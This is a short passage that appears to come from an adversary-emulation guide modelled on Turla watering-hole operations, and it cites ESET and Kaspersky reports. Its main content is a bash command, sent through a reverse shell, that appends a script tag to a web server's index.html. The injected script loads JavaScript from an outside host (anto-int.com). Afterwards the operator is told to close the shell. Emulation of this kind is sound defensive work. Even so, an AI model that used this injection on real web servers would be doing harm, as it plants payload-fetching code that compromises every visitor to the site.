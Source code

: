 ```bash
echo "<script>if (document.getElementById('xyz')) {{}} else {{ var gam = document.createElement('script'); gam.type = 'text/javascript'; gam.async = true; gam.src = ('http://anto-int.com/counter.js'); var sm = document.getElementsByTagName('script')[0]; sm.parentNode.insertBefore(gam, sm); var fl = document.createElement('span'); fl.id = 'xyz'; var d =  document.getElementsByTagName('div')[0]; d.parentNode.insertBefore(fl, d);}}</script>" >> /var/www/html/index.html
```

* Note - this command does not return output. Wait 1 minute and then send the following command to close the reverse shell

```bash
exit
```

### :moyai: Source Code

* [Penquin](Penquin.)
  * [sendPacket.py](sendPacket.py)

### :microscope: Cited Intelligence

* <https://www.welivesecurity.com/2020/03/12/tracking-turla-new-backdoor-armenian-watering-holes/>
* <https://www.welivesecurity.com/wp-content/uploads/2018/01/ESET_Turla_Mosquito.pdf>
* <https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf>
